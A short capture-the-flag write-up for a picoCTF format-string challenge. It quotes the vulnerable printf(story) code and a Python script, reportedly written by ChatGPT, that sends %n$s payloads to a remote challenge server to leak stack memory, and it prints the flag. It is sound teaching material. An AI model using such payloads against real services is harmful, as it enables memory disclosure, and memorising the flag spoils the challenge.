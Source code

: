 # flag_leak challenge

## Flag
CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}



from the analysis of the source and experience/knowledge while working on buffer_overflow_0,
```
printf("Tell me a story and then I'll tell you one >> ");
scanf("%127s", story);
printf("Here's a story - \n");
printf(story);
printf("\n");
```
no format specifier used in `printf(story)` 
using this exploit it is possible to dump the contents of the stack and ultimately the memory address of our flag stored as a local variable after the readflag(flag, FLAGSIZE) function is called

a brute force method was to view the contents of every index at stack, i tried doing it manually, was too much so I asked chatGPT to write a script 
created a flag.txt file and ran the script locally. It worked because `checksec vuln` mentioned PIE is disabled, so addresses for this program do not change. 

```
import socket

def find_flag():
    # Set up the connection to the remote server
    host = 'saturn.picoctf.net'
    port = 53359
    max_attempts = 500  # Adjust range as needed

    # Create a socket and connect to the server
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host, port))
        
        for n in range(1, max_attempts):
            payload = f"%{n}$s"  # The format string payload
            try:
                # Send the payload to the server
                s.sendall(payload.encode() + b'\n')

                # Receive the response from the server
                response = s.recv(1024).decode()  # Adjust buffer size if needed

                # Check if the output contains the flag
                if "picoCTF" in response:
                    print(f"Flag found: {response.strip()}")
                    break
            except Exception as e:
                print(f"Error on index {n}: {e}")
                continue
        else:
            print("Flag not found within the specified range.")

# Start the function to search for the flag
find_flag()

```

and found it at index 24! ran it in the webshell and got the flag. 
